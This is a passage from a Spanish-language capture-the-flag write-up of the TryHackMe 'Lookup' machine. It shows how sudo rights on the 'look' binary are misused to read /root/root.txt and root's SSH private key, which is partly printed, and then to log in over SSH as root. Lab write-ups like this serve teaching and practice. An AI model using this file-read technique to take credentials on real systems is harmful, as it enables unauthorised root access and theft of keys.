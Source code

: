 ![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Lookup/8.png)

#### Sin escalada a root

Directamente apuntamos al fichero que contiene la flag de root y ejecutamos **look** con SUDO y cargando la variable "*LFILE*", conseguimos leer la última flag:
```
think@lookup:~$ LFILE="/root/root.txt"
think@lookup:~$ sudo look '' "$LFILE"
*************************
```

#### Escalada a root
Podríamos leer el fichero "*shadow*", pero la contraseña utilizada es bastante robusta y nos costaría muchísimo tiempo intentar romper el hash, la otra alternativa más asequible, es leer la clave privada y conectarnos por *SSH* como root: 

```
think@lookup:~$ LFILE="/root/.ssh/id_rsa"
think@lookup:~$ sudo look '' "$LFILE"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAptm2+DipVfUMY+7g9Lcmf/h23TCH7qKRg4Penlti9RKW2XLSB5wR
Qcqy1zRFDKtRQGhfTq+YfVfboJBPCfKHdpQqM/zDb//ZlnlwCwKQ5XyTQU/vHfROfU0pnR
j7eIpw50J7PGPNG7RAgbP5tJ2NcsFYAifmxMrJPVR/+ybAIVbB+ya/D5r9DYPmatUTLlHD
<SNIP>
+Lhj8qeqwdoAsCv1IHjfVF
dhIPjNOOghtbrg0vvARsMSX5FEgJxlo/FTw54p7OmkKMDJREctLQTJC0jRRRXhEpxw51cL
3qXILoUzSmRum2r6eTHXVZbbX2NCBj7uH2PUgpzso9m7qdf7nb7BKkR585f4pUuI01pUD0
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
think@lookup:~$ 
```
Generamos nuestro fichero *id_rsa*, le otorgamos permisos y nos conectamos por *SSH* sin contraseña:
```
> ssh root@lookup.thm -i id_rsa
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 23 Nov 2024 07:20:59 PM UTC

  System load:  0.0               Processes:             137
  Usage of /:   59.9% of 9.75GB   Users logged in:       1
  Memory usage: 24%               IPv4 address for ens5: 10.10.38.250
  Swap usage:   0%

  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

```